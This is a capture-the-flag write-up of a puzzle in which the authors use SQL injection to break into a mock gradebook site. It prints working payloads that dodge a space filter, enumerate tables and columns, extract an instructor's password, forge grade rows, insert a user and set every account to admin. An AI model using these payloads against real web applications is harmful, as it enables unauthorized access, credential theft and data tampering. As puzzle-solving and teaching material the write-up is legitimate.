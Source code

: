 ##Puzzle 4

First, if we log in normally, we see the table below (with Fs instead of As). There's not much we can take from this, other than perhaps that the instructor name `noam_chomsky` could be important later.

![image](gradebase3.png)

We solved this problem using SQL injection, which almost always start with `'` to mark the end of the current string and end with `--` which tells SQL to ignore the rest of the query. We also use `/**/` instead of just a space, since the query sanitization code is smart enough to get rid of spaces and even `%20`.

Most of our queries use `UNION SELECT` to replace the original query output. Using `UNION SELECT` queries means we first have to determine the number of columns in the main query. Inputting a random query with an error like below
![image](gradebase1.png)
sends us to an error page that provides more information about the database:
```
(psycopg2.errors.SyntaxError) syntax error at or near "Char" LINE 1: SELECT * FROM "user" WHERE username=''Char(45)--' ^ [SQL: SELECT * FROM "user" WHERE username=''Char(45)--'] (Background on this error at: http://sqlalche.me/e/13/f405)
```
This tells us there is a table named `user` that stores the user entries, and the main query obtains a row from `user` matching the inputted username. The next step is to determine the columns of the user table. There are 7 columns (found via the `ORDER BY` trick on this [cheatsheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)).

Now we know that there are 7 columns, we can ensure that our injection query has 7 comma-separated values. First, we get the column names of the `user` table from the `information_schema.columns` table by inputting the following query into the username box as shown earlier.
```
'/**/UNION/**/SELECT/**/0,STRING_AGG(column_name::text,','),null,null,null,null,null/**/FROM/**/information_schema.columns/**/WHERE/**/table_name='user'--
```

The reason we put 0 in the first value is because if we don't an error will display telling us it has to be an integer. Further messing around also shows us that the second value is what gets displayed after `Student:` once we log in. We get:

![image](gradebase2.png)

What is especially interesting to us is the column named `password_125f80a6`. It is clearly deliberately randomized between different puzzle hunters. Now if we recall from the start that our instructor is called `noam_chomsky`, let us put in another query to try to get the value of the `password_125f80a6` column for the user `noam_chomsky`.

```
crap'/**/UNION/**/SELECT/**/id,password_125f80a6,null,null,null,null,null/**/FROM/**/"user"/**/WHERE/**/username='noam_chomsky'--
```

Just like before, it displays the output of the second value after `Student:`

![image](gradebase4.png)

So now we know that the user `noam_chomsky` has the password `Wn-gbbWutxT0fyZlsV3c2rv4PIg=`, we can try logging in as instructor with these credentials.

![image](gradebase5.png)

Sure enough, instead of the typical grade home page, we see an admin page. When we scroll to the bottom, we see some of our grades (which were F)

![image](gradebase6.png)

crap'/**/UNION/**/SELECT/**/0,STRING_AGG(table_name::text,','),null,null,null,null,null/**/FROM/**/information_schema.tables--

user,grade,information_schema_catalog_name,attributes,applicable_roles,administrable_role_authorizations,check_constraint_routine_usage,character_sets,check_constraints,collations,collation_character_set_applicability,column_domain_usage,column_privileges,routine_privileges,column_udt_usage,columns,constraint_column_usage,role_routine_grants,constraint_table_usage,domain_constraints,domain_udt_usage,routines,domains,enabled_roles,key_column_usage,schemata,parameters,referential_constraints,sql_languages,role_column_grants,sequences,sql_features,sql_implementation_info,sql_packages,sql_sizing,sql_sizing_profiles,view_routine_usage,table_constraints,table_privileges,foreign_table_options,role_table_grants,view_table_usage,tables,triggered_update_columns,foreign_data_wrappers,triggers,views,udt_privileges,role_udt_grants,usage_privileges,data_type_privileges,role_usage_grants,user_defined_types,view_column_usage,element_types,column_options,foreign_server_options,foreign_data_wrapper_options,foreign_servers,user_mapping_options,foreign_tables,user_mappings


id,user_id,classname,grade,code,credits
crap'/**/UNION/**/SELECT/**/0,STRING_AGG(id::text,','),null,null,null,null,null/**/FROM/**/"grade"--

';INSERT/**/INTO/**/grade/**/VALUES/**/(15122,1,'signed_by_Noam_Chomsky',333,'lolHackMIT',69420)--

';INSERT/**/INTO/**/grade/**/VALUES/**/(12345,1,'Coolidge',-1000000,'Calvin',100000)--




id,username,year,gender,favorite_color,password_4d8f182b,admin
crap'/**/UNION/**/SELECT/**/0,STRING_AGG(admin::text,','),null,null,null,null,null/**/FROM/**/"user"--


';INSERT/**/INTO/**/"user"/**/VALUES/**/(2,'coolidge',2020,'F','gold','noam_chomsky',true)--

';UPDATE/**/"user"/**/SET/**/admin=true--
